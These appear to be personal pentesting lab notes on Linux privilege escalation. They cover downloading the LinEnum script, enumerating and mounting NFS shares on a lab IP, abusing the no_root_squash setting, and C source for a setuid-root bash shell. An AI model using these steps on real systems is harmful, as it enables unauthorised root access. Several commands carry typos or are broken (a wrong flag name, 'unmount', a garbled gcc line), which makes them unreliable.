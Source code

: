 LinEnum `shell wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`


### NFS

``` Target
# shows nfs shares and flags
cat /etc/export
```
flag `not_root_squash` - gives root user **of the client** ability to create files that can be used as root on server

``` Kali
# you can detect & list nfs with
sudo nmap --script=nfs-showmount 10.10.137.205


# create tmp dirs to mount shares to
mkdir -p /tmp/nfs/sharefolder
mkdir -p /tmp/nfs/tmp
mkdir -p /tmp/nfs/backup

# mount shares
sudo mount -t nfs 10.10.137.205:/home/ubuntu/shrefolder /tmp/nfs/sharefolder
sudo mount -t nfs 10.10.137.205:/tmp /tmp/nfs/tmp
sudo mount -t nfs 10.10.137.205:/home/backup tmp/nfs/backup

# cleaning up
sudo unmount /tmp/nfs/sharefolder
sudo unmount /tmp/nfs/tmp
sudo unmount /tmp/nfs/backup

rm -rf /tmp/nfs/sharefolder
rm -rf /tmp/nfs/tmp
rm -rf /tmp/nfs/backup

# to see what is mounted (lok for IP for mounted from other systems)
findmnt
df -aTh
```

``` Kali
# to compile
int main() 
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

# compile
sudo su
gcc nfs.c -o nfs -wcat pro
```
